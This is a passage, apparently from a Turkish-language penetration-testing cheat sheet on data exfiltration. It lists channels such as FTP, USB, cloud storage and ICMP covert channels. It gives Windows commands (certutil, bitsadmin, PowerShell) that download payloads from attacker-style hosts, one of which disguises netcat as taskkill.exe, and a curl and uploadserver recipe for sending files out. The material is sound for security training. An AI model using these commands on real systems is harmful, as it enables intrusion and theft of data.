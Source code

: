 - **FTP**: Dosya Transfer Protokolü (FTP), dosyaları bir sunucudan başka bir sunucuya aktarmak için kullanılan bir protokoldür. Verileri FTP protokolü üzerinden dışarı çıkarmak için bir FTP sunucusu veya FTP istemcisi kullanabilirsiniz.

- **USB**: USB bellek veya harici bir depolama cihazı kullanarak verileri fiziksel olarak dışarı çıkarabilirsiniz. Bu yöntem, ağ güvenlik önlemlerini atlatmak için kullanılabilir.

- **Cloud Storage**: Bulut depolama hizmetleri, verileri internet üzerinden depolamanıza ve paylaşmanıza olanak tanır. Bu hizmetleri kullanarak verileri bulut depolama sağlayıcısına yükleyebilir ve daha sonra başka bir cihazdan erişebilirsiniz.

- **Covert Channels**: Gizli kanallar, normalde veri iletimi için kullanılmayan bir protokol veya hizmeti kullanarak verileri dışarı çıkarmak için kullanılır. Örneğin, ICMP veya TCP/IP protokollerini kullanarak verileri gizleyebilirsiniz.

Bu yöntemlerin her biri farklı avantajlara ve dezavantajlara sahiptir. Hangi yöntemin kullanılacağı, hedef sistemin özelliklerine ve ağ güvenlik önlemlerine bağlı olacaktır.
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```
### Dosyaları Yükle

* [**SimpleHttpServerWithFileUploads**](https://gist.github.com/UniIsland/3346170)
* [**GET ve POST'ları (ayrıca başlıkları) yazdıran SimpleHttpServer**](https://gist.github.com/carlospolop/209ad4ed0e06dd3ad099e2fd0ed73149)
* Python modülü [uploadserver](https://pypi.org/project/uploadserver/):
```bash
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver
# With basic auth:
# python3 -m uploadserver --basic-auth hello:world

# Send a file
curl -X POST http://HOST/upload -H -F 'files=@file.txt'
# With basic auth:
# curl -X POST http://HOST/upload -H -F 'files=@file.txt' -u hello:world
```
### **HTTPS Sunucusu**
